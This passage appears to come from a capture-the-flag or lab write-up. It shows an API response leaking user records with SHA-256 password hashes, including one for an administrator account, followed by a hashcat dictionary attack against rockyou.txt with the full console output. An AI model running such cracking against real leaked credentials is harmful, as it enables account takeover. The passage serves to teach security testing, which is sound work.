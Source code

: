 ```http
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
]
```

Even better, it returned the password hashes as part of the payload. I saved them to a file and tried cracking them with hashcat.

```bash
$ hashcat -a0 -m1400 --username hash.txt /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 2869/5803 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:REDACTED
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: hash.txt
Time.Started.....: Fri Jan 13 17:55:39 2023 (4 secs)
Time.Estimated...: Fri Jan 13 17:55:43 2023 (0 secs)
Kernel.Feature...: Pure Kernel
```